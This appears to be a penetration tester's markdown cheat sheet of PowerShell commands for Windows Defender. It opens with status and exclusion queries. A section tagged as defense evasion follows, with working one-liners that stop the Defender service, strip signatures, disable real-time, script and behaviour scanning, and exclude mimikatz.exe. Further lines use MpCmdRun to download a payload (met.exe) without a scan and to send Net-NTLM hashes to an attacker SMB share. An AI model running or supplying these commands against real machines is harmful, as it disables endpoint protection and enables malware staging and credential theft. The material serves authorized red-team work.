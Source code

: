 # pwsh
% windows, security, antivirus, defender

#plateform/windows #target/local #cat/RECON/SECURITY/DEFENDER #tag/powershell 


## defender - get list of commands
```powershell
 Get-Command -Module defender
```

## defender - knowledge
```powershell
https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1
https://wirediver.com/disable-windows-defender-in-powershell/
```


## defender - get antivirus
```powershell
wmic.exe /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

## defender - get powershell commands
```powershell
Get-Command -Module Defender
```

## defender - get service Status
```powershell
(Get-Service windefend).Status
```

## defender - get status
```powershell
Get-MpComputerStatus
```

## defender - get defensive modules status
```powershell
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled, Antispyware | FL
```

## defender - get tamper protection status
```powershell
Get-MpComputerStatus | Select IsTamperProtected, RealTimeProtectionEnabled | FL
```

## defender - get exclusions path
```powershell
Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionExtension
```

## defender - get exclusions extension
```powershell
Get-MpPreference | Select-Object  -Property ExclusionExtension
```


#cat/DEFENSE-EVASION/SECURITY/DEFENDER

## Defender - stop service
```powershell
sc.exe config WinDefend start= disabled; (Get-Service windefend).stop
```

## Defender - Remove signatures (if Internet connection is present, they will be downloaded again)
%ProgramFiles%\Windows Defender\MpCmdRun.exe
```powershell
.\MpCmdRun.exe -RemoveDefinitions -All
```

## Defender - disable All
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true;  Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments
```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring
```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI
```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions
```powershell
$p = "<path|c:\windows\temp>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add process to exclusions (1)
```powershell
$p = "<path|c:\windows\temp\mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add process to exclusions (2)
```powershell
$p = "<binary|mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add extension to exclusions
```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```

## Defender - Download without triggering scan
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

## Defender - steal net-tnlm
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```


## Defender - steal net-tnlm
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```

## Defender - remove signatures
```powershell
C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe -RemoveDefinitions -All
```

## Defender - scan folder (or file)
```powerhell
Start-MpScan -ScanType Custom -ScanPath <path> -DisableRemediation
```